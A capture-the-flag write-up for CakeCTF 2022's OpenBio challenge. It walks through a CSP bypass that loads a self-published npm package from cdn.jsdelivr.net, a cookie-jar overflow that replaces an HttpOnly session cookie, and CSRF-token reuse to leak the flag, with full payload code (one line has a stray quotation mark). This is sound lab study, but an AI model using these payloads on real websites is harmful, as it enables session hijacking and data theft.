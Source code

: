 # CTF writeup for OpenBio - CakeCTF_2022

Let's take a look at the source code. There are some APIs: register/login/logout, view/update profile, and report.
The website uses [CSP and nonce techniques](https://web.dev/csp/) to prevent XSS attack. Below is the `/profile/my_account`'s response header:
```
HTTP/1.1 200 OK
Server: nginx/1.21.6
Date: Mon, 05 Sep 2022 05:30:47 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2451
Connection: close
Content-Security-Policy: default-src 'none';
  script-src 'nonce-uXNwZYx7W4dDz2yzdzrcAw==' https://cdn.jsdelivr.net/ https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/ 'unsafe-eval';
  style-src https://cdn.jsdelivr.net/;
  frame-src https://www.google.com/recaptcha/ https://recaptcha.google.com/recaptcha/;
  base-uri 'none';
  connect-src 'self';
Vary: Cookie
```
So, the website only accepts scripts coming from https://cdn.jsdelivr.net/. I publish my npm package called my-npm-payload (version 1.0.0) with the content: `<script>alert(1)</script>`. Then I update my bio: `<script src="https://cdn.jsdelivr.net/npm/my-npm-payload@1.0.0"></script>`. And BOOM! The alert statement is executed.

Ok, we perfomed XSS successfully, but how to get the flag? Let's look at `crawler.js`:
```
  ...
    const username = Math.random().toString(32).substring(2);
    const password = Math.random().toString(32).substring(2);

    const browser = await puppeteer.launch(browser_option);
    try {
        const page = await browser.newPage();
        // Register
        await page.goto(base_url + '/', {timeout: 3000});
        await page.type('#username', username);
        await page.type('#password', password);
        await page.click('#tab-signup');
        await page.click('#signup');
        await wait(1000);

        // Set flag to bio
        await page.goto(base_url + '/', {timeout: 3000});
        await page.$eval('#bio', element => element.value = '');
        await page.type('#bio', "You hacked me! The flag is " + flag);
        await page.click('#update');
        await wait(1000);

        // Check spam page
        await page.goto(url, {timeout: 3000});
        await wait(3000);
        await page.close();
   ...
```
In short, it does the following things:
- First, create a user (with random username and password)
- Second, update its own bio => flag
- Finally, go to reported bio

This is my idea: When the crawler visit my bio, the executed XSS script will change **my bio** to **crawler's username**. And having crawler's username means having the flag.

## CSRF

The update profile API uses csrf_token. But I realize that with the same session cookie and one of the valid csrf_tokens, I can call update API multiple times. 

Therefore, the script should **change the crawler's session cookie to my session cookie and call update API with my csrf_token**

## Change session cookie

The session cookie is HttpOnly. There's a technique we can use to bypass this. It's [Cookie jar overflow](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies/cookie-jar-overflow). So, this is my-npm-payload (version 2.0.0):
```
for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i}`;
    }
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`;
    }
    document.cookie='session=<my_session_cookie>;path=/';
    
    xhr_2 = new XMLHttpRequest();
    xhr_2.open('POST', '/api/user/update');
    xhr_2.withCredentials = true;
    xhr_2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr_2.send("bio=new_bio"&csrf_token=<my_csrf_token>");
```
Note that there is `path=/` in new session cookie, because if not, the cookie will not be sent with the request on path `/profile/...`
I ran this code on console first, and it worked! Now, we will replace `new_bio` to the flag.
I modified my-npm-payload like this (version 3.0.0):
```
//send request to / => get the crawler's username
var result;
xhr = new XMLHttpRequest();
xhr.open('GET', '/');
xhr.onreadystatechange = function(){
    result = xhr.responseText;
    dom = new DOMParser();
    result_parsed = dom.parseFromString(result, 'text/html');
    title = result_parsed.title; //The title contains the crawler's username
    
    //overwrite crawler's session cookie => my session cookie
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i}`;
    }
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`;
    }
    document.cookie='session=<my_session_cookie>;path=/';
    
    //Update my bio with my csrf_token
    xhr_2 = new XMLHttpRequest();
    xhr_2.open('POST', '/api/user/update');
    xhr_2.withCredentials = true;
    xhr_2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr_2.send("bio=<script src='https://cdn.jsdelivr.net/npm/my-npm-payload@3.0.0'></script>Title:"+title+"&csrf_token=<my_csrf_token>");
}
xhr.send();
```
I have `<script src='my-npm-payload-url'></script>` in my bio's content so that when I go to my profile and click "Report", the payload will not be lost. Now I change my bio: `<script src="https://cdn.jsdelivr.net/npm/my-npm-payload@3.0.0"></script>` and after reporting, I get the result:

![image](https://user-images.githubusercontent.com/103978452/188389577-b98d3bab-212d-4eab-825b-4df19d174330.png)

Now visit `/profile/7cokbb5m2bo` and here's the flag:
'CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}'
